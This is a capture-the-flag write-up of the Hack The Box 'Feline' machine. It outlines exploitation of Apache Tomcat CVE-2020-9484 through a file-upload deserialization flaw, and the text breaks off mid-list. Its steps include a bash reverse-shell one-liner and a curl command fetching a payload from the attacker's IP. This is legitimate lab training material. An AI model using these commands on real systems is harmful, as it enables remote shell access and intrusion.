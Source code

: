 ```yaml
---
title: Lab - HTB - Hard - Feline (HackyHour5)
date: 2020-11-13 11:11:11 -0400
description: HackTheBox
categories: [Lab, HackTheBox]
# img: /assets/img/sample/rabbit.png
tags: [Lab, HackTheBox]
---
```


- [Lab - HTB - Hard - Feline (HackyHour5)](#lab---htb---hard---feline-hackyhour5)
  - [Initial：](#initial)
    - [Recon NMAP](#recon-nmap)
    - [CVE in 2020](#cve-in-2020)
  - [Gain acess to shell](#gain-acess-to-shell)
    - [Port 8080](#port-8080)
    - [burpsuite the request](#burpsuite-the-request)
    - [Apache Tomcat 9.0.27 vulnerability CVE - 2020 - 9484](#apache-tomcat-9027-vulnerability-cve---2020---9484)
    - [use ysoserial to serialize the file](#use-ysoserial-to-serialize-the-file)
  - [Access extension](#access-extension)
    - [user Tomcat](#user-tomcat)
    - [cve-2020-11651 PoC](#cve-2020-11651-poc)

- ref
  - [na5c4r](https://www.youtube.com/channel/UCh35oGf3_djXJbJVZ1KJ40g)
  - [masahiro331/CVE-2020-9484](https://github.com/masahiro331/CVE-2020-9484)
  - [Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
  - [CVE-2020-9484 Tomcat RCE漏洞分析](https://mp.weixin.qq.com/s/OGdHSwqydiDqe-BUkheTGg)
  - [IdealDreamLast/CVE-2020-9484](https://github.com/IdealDreamLast/CVE-2020-9484)
  - [blog](https://estamelgg.github.io/posts/Feline/)


---

# Lab - HTB - Hard - Feline (HackyHour5)

![feline](https://i.imgur.com/DPdHOxS.png)
> Machine: Feline


```
1. use nmap to find the open port
2. find the open port 8080
3. investiate the webpage, it allows upload file
4. burpsuite the request
   - able to diy the file name
   - upload file content was been shown in post request
   - bad deserialize
5. find the CVE - 2020 - 9484
6. resend the request with empty filename
   - find the upload page: /upload.jsp
   - find the upload path: /opt/samples/uploads

7. create playload.sh 
   - bash -c "bash -i >& /dev/tcp/10.10.15.118(your ip)/2424 0>&1"
   - (reverse shell code)
 
8. create uploadfile.session 
   - curl http://10.10.15.118(your ip)/play1.sh -o /tmp/targetplay.sh
   - (upload the reverse shell code and store ie in /tmp/targetplay.sh)

9. create executefile.session 
```